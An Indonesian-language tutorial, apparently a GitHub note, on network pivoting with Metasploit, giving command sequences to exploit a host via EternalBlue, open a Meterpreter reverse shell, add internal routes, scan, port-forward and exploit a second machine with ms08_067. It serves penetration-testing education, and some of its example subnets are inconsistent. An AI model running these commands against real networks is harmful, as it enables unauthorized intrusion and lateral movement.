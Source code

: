 # Pivoting dan Route Command di Metasploit\

## A. Apa Itu Pivoting?

`Pivoting` adalah teknik menggunakan sistem yang telah dikompromikan sebagai `hot point` untuk menyerang sistem lain di jaringan internal yang hanya bisa diakses dari dalam.

Ada dua jenis pivoting:

- Layer 3 pivoting (routing) → menggunakan `autoroute` dan `route` di Metasploit.
- Layer 2 pivoting (ARP spoofing, bridge) → biasanya dilakukan dengan tools seperti `ettercap` atau `bettercap`.

## B. Syarat Pivoting di Metasploit

- Sudah ada Meterpreter session di host pertama (pivot point).
- Host tersebut punya akses ke jaringan internal yang ingin dijelajahi.
- Modul `autoroute` atau perintah `route` digunakan untuk menambahkan rute jaringan internal.

## C. Langkah-Langkah Melakukan Pivoting di Metasploit

### 1. Dapatkan Akses ke Mesin Pertama

Contoh:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploit
```

Dapatkan Meterpreter session ke host A (misalnya `192.168.1.10`).

### 2. Tambahkan Route Internal dengan `autoroute`

Misalnya, mesin A bisa melihat jaringan internal `192.168.1.0/24`:

```
meterpreter > run autoroute -s 192.168.1.0/24
```

Atau manual:

```
meterpreter > background
msf6 > route add 192.168.1.0 255.255.255.0 1
```

Angka `1` adalah session ID.

Cek route yang sudah ada:

```
msf6 > route print
```

### 3. Gunakan `auxiliary/scanner` Melalui Route

Kamu sekarang bisa melakukan scanning ke internal network!

Contoh scanning host internal:

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1-254
set PORTS 22,80,445
run
```

Ini akan meng-scan port (22,80,445) mulai dari host `192.168.1.1` sampai dengan host `192.168.1.254`.

### 4. Port Forwarding (Opsional)

Jika kamu ingin mengakses service internal dari browser (misalnya Web UI internal), gunakan port forward:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

Lalu, buka di browser kamu:

```
http://127.0.0.1:8080
```

### 5. Lanjutkan Eksploitasi ke Mesin Internal

Setelah tahu ada mesin internal dengan service aktif, kamu bisa lanjut menggunakan exploit yang sesuai:

```
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 192.168.10.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### 6. Tips Tambahan

- Gunakan `arp` di Meterpreter untuk melihat host yang pernah diakses:

  ```
  meterpreter > arp
  ```

- Gunakan netstat untuk lihat koneksi:
  ```
  meterpreter > netstat
  ```

- Bisa chaining pivot lebih dari satu kali (multi-hop), tapi perlu VPN atau SOCKS proxy (contoh: `auxiliary/server/socks_proxy`).
